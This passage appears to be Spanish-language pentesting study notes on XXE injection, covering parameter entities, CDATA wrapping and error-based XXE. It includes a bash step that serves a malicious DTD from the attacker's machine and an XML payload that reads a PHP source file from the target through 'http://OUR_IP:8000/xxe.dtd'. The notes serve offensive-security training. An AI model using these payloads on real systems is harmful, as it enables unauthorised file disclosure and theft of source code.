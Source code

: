 Un tipo especial de entidad que comienza con un carácter `%` y solo se puede usar dentro de la DTD. Lo que es único acerca de las entidades de parámetros es que si las referenciamos desde una fuente externa (por ejemplo, nuestro propio servidor), entonces todas ellas se considerarían externas y se pueden unir.

Por lo tanto, intentemos leer un archivo almacenando mediante un archivo DTD (por ejemplo `xxe.dtd`), alojado en nuestra máquina y luego haga referencia a él como una entidad externa en la aplicación web de destino, de la siguiente manera:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

invocaacion:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
...
<</email> <!-- reference the &joined; entity to print the file content -->
```

de esta manera podriamos leer un archivo **.php** sin tener que codificar a base64:

![[Pasted image 20230124203209.png]]

>[!tip]
>Este truco puede ser muy útil cuando el método XXE básico no funciona o cuando se trata de otros marcos de desarrollo web.

## ERROR BASED XXE

Si la aplicación web muestra errores de tiempo de ejecución (por ejemplo, errores de PHP) y no tiene un manejo de excepciones adecuado para la entrada XML, entonces podemos usar esta falla para leer la salida del exploit XXE.

**_Esta tecnica, a diferencia de un blind XXE, al menos reporta un error en la respuesta. Un blind XXE no mostraria ni resultado ni error._**

Primero, intentemos enviar datos XML con formato incorrecto y veamos si la aplicación web muestra algún error. Para hacerlo, podemos eliminar cualquiera de las etiquetas de cierre, cambiar una de ellas para que no se cierre (por ejemplo , `<roo>`en lugar de `<root>`), o simplemente hacer referencia a una entidad que no existe, de la siguiente manera:

![[Pasted image 20230124203615.png]]

Vemos que efectivamente causamos que la aplicación web mostrara un error, y también reveló el directorio del servidor web, que podemos usar para leer el código fuente de otros archivos. Ahora, podemos explotar esta falla para filtrar el contenido del archivo.
